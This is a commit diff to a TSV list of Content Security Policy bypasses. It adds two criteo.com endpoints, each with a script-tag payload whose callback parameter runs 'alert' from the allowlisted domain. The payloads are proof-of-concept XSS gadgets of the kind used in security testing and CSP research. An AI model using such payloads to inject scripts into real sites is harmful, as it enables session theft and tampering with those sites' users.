

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added *.criteo.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 37: dynamic.criteo.com | <script src="https://dynamic.criteo.com/js/ld/s2s.js?p=1&c=1&j=alert"></script> | renniepak
+row 46: gum.criteo.com | <script src="https://gum.criteo.com/sync?c=123&r=2&a=1&j=alert"></script> | renniepak
```
